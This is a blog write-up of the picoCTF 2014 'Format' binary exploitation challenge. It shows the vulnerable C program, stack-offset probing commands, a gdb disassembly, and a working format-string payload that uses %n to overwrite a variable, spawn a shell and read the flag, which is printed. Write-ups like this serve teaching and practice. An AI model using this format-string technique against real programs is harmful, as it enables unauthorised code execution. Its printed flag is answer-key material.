 ```yaml
---
layout: post
title: "picoCTF 2014 Format"
date: 2014-11-07 19:50:05 -0500
author: [et0x]
comments: true
categories: [picoctf]
---
```


### Solved by et0x

Format is a 70 point binary exploitation challenge. 

> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found here. 

The source of the binary is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}
```
So we need to somehow find a way to change the value of secret to 1337, using a format string attack because the printf() function isn't correctly implemented.  Well first thing's first, lets find out what the stack looks like.

*note: the environment variables mess with the stack in this problem, so do yourself a favor by prepending the command with 'env -i' to clear the environment before running the command.*
```bash
pico1139@shell:/home/format$ for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141
Offset: 105:AAAA41414141
```

This means we can see our input at offset 105 from the top of the stack.  However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then.  (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

```bash
for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
Offset: 103:AAAA41410074
Offset: 104:AAAA31254141
```

So we found our A's again, but they aren't aligned on the stack.  Lets add two more A's at the end to see if we can get it to line up.

```bash
for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
Offset: 103:AAAA41414141
```

Great! Our offset is 103.  Now we need to find out what address to use to change the data in "secret"

```
pico1139@shell:/home/format$ gdb -q format
Reading symbols from format...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x080484e2 <+0>:	push   %ebp
   0x080484e3 <+1>:	mov    %esp,%ebp
   0x080484e5 <+3>:	and    $0xfffffff0,%esp
   0x080484e8 <+6>:	sub    $0x20,%esp
   0x080484eb <+9>:	movl   $0x804a030,0x1c(%esp)
   0x080484f3 <+17>:	mov    0xc(%ebp),%eax
   0x080484f6 <+20>:	add    $0x4,%eax
   0x080484f9 <+23>:	mov    (%eax),%eax
   0x080484fb <+25>:	mov    %eax,(%esp)
   0x080484fe <+28>:	call   0x8048350 <printf@plt>
   0x08048503 <+33>:	mov    0x804a030,%eax
   0x08048508 <+38>:	cmp    $0x539,%eax
   0x0804850d <+43>:	jne    0x8048514 <main+50>
   0x0804850f <+45>:	call   0x80484ad <give_shell>
   0x08048514 <+50>:	mov    $0x0,%eax
   0x08048519 <+55>:	leave  
   0x0804851a <+56>:	return
```

It looks like the address **0x0804a030** is getting placed in *ptr.  That's the address we need to use in place of our A's.  In order to place the number 1337 into secret's memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.)


```bash
pico1139@shell:/home/format$ env -i ./format $(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103$nAA"')
$ id
uid=11066(pico1139) gid=1008(format) groups=1017(picogroup)
$ ls
Makefile  flag.txt  format  format.c
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
